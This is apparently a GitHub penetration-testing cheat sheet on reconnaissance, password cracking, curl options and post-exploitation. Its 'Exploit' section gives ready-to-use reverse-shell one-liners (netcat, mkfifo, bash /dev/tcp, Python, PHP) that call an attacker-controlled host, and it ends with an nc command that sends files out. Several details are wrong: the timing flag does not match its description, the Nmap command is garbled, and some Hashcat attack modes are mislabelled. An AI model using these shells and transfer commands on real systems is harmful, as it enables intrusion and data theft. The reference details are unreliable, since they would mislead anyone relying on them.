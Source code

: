 # Penetration Testing Basics

## Reconnaissance

### Active Reconnaissance with Nmap

Nmap (Network Mapper) is a powerful tool used to discover hosts and services on a computer network. It is commonly used during penetration testing for port scanning, service detection, and operating system identification.

#### Common Nmap Options:
- `-sS`: Performs a stealthy SYN scan.
- `-sV`: Detects service versions.
- `-O`: Detects the operating system.
- `-A`: Enables OS detection, version detection, script scanning, and traceroute.
- `-T2`: Sets a "polite" timing template to reduce network congestion or detection.
- `-p-`: Scans all 65,535 TCP ports.
- `target_ip`: Replace this with the IP address of your target.

#### Full Nmap Command:
```bash
sudo nmap -sS -sV --script=default,vuln -p- -T5 <ip target_ip>
```

### Gobuster Command
DirBuster is a powerful tool for brute-forcing directories and file names on a web server to enumerate hidden resources
```bash
gobuster dir -u http://example.com -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```
In Kali there is a GUI version called DirBuster
![image](https://github.com/user-attachments/assets/cbd21222-0f45-47da-bc48-99025523a4c5)


#### Hashcat Usage Guide

Hashcat is a powerful password cracking tool that supports multiple hash algorithms and attack modes. This guide covers the essential options and their explanations to help you get started.

#### Basic Syntax

```bash
hashcat -m <hash_mode> -a <attack_mode> <hash_file> <wordlist>
```
#### Hashcat Attack Modes:

- `-a 0`: **Straight** (Dictionary attack)  
  Tries each word in the wordlist.  
  Example: `hashcat -m 0 -a 0 hash.txt rockyou.txt`

- `-a 1`: **Combination**  
  Combines two wordlists.  
  Example: `hashcat -m 0 -a 1 hash.txt wordlist1.txt wordlist2.txt`

- `-a 2`: **Mask**  
  Generates passwords based on a mask pattern.  
  Example: `hashcat -m 0 -a 2 hash.txt ?l?l?d?d`

- `-a 3`: **Brute-force**  
  Tries all combinations of a given character set.  
  Example: `hashcat -m 0 -a 3 hash.txt ?a?a?a?a`

- `-a 4`: **Toggle-case**  
  Tries passwords with different case variations.  
  Example: `hashcat -m 0 -a 4 hash.txt`

- `-a 5`: **Hybrid Mask + Wordlist**  
  Combines a wordlist and a mask.  
  Example: `hashcat -m 0 -a 5 hash.txt wordlist.txt ?d?d`

#### Common Hashcat Hash Modes:

- `-m 0`: MD5  
- `-m 100`: SHA1  
- `-m 1400`: SHA256  
- `-m 1700`: SHA512  
- `-m 3000`: LM  


## Useful Curl Options

### Basic Usage
#### Silent Mode and Debugging
- `-s`: Silent mode. Suppresses the progress meter and error messages.
- `-v`: Verbose mode. Provides detailed information about the request and response.

#### Proxy Support
- `-x <proxy>`: Specifies a proxy to use for the request. Example: `-x http://proxy.example.com:8080`.

#### Custom Headers and Data
- `-H <header>`: Adds a custom header to the request. Example: `-H "Authorization: Bearer <token>"`.
- `-d <data>`: Sends data in a POST request. Example: `-d "param=value"`.

### Adding Cookies
- `-b <data|filename>`: Sends cookies with the request. Example:
  - Inline cookies: `-b "name=value; name2=value2"`
  - From a file: `-b cookies.txt`
- `-c <filename>`: Saves cookies to a file. Example: `-c cookies.txt`.


#### HTTP Method Specification
- `-X <method>`: Specifies the HTTP method to use. Example: `-X POST`.

#### Output Handling
- `-o <file>`: Saves output to a file instead of standard output. Example: `-o response.txt`.
- `-O`: Saves the file with the same name as the remote file.

#### SSL/TLS Options
- `-k`: Ignores SSL certificate errors.

#### Redirects
- `-L`: Follows redirects automatically.

#### Authentication
- `-u <user:password>`: Supplies credentials for basic authentication.

## Exploit

#### Useful commands:

- `cat /etc/os-release `: **OS version**
- `script /dev/null -c /bin/bash`: **Get a bash shell**
- `sudo -l`: **List our commands you can run as root**


### Reverse Shell Basics

#### Listener Setup

On your host machine, start a listener using Netcat:
```bash
nc -lvnp 9999
```

---

## Common Reverse Shell Commands

#### 1. Using Netcat
```bash
nc <your_host_ip> 9999 -e /bin/bash
```

**Alternative (If `-e` is disabled):**
```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc <your_host_ip> 9999 > /tmp/f
```

---

#### 2. Using Bash
```bash
bash -i >& /dev/tcp/<your_host_ip>/9999 0>&1
```

---

#### 3. Using Python
**For Python 3:**
```bash
python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("<your_host_ip>",9999)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call(["/bin/sh","-i"])'
```

---

#### 4. Using PHP
```bash
php -r '$sock=fsockopen("<your_host_ip>",9999);exec("/bin/sh -i <&3 >&3 2>&3");'
```



## Hands on Objectives

#### Useful commands:
using scp to transfer files
- `scp <file> character@10.10.14.60:/path/to/destination/`
- Local Machine: `nc -lvnp <PORT> >` Target Machine: `cat '<filename>' | nc <YOURIPADDRESS> <PORT>`
